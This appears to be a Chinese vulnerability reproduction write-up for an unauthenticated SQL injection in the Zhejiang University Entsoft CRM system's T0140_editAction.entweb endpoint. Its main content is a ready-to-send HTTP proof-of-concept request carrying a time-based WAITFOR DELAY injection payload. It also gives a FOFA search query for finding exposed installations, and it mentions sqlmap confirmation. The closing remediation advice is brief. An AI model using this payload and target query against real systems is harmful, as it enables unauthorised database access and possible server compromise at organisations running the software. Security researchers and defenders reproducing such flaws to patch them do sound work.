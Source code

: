 
# 浙大恩特客户资源管理系统 SQL 注入漏洞复现

### 0x01 产品简介

  浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "客户资源管理")系统是一款针对企业[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

 浙大恩特客户资源管理系统中 T0140\_editAction.entweb 接口处存在[SQL 注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以利用该漏洞获取系统数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"

![](assets/1700442881-b38074d2664ddc683fad4dcf5fe7b25e.png)

### 0x04 漏洞复现

PoC

```http
GET /entsoft/T0140_editAction.entweb;.js?method=getdocumentnumFlag&documentnum=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

延时注入

![](assets/1700442881-2d3db935fb42ff51d4880ef54091f1d0.png)

Sqlmap 验证

![](assets/1700442881-3c0b5740c4a0a7502240e0ed96fc6a23.png)

### 0x05 修复建议 

关闭互联网暴露面设置接口访问控制，对用户提交数据信息严格把关，多次筛选过滤  
对用户数据内容进行加密，采用 SQL 语句预编译和绑定变量
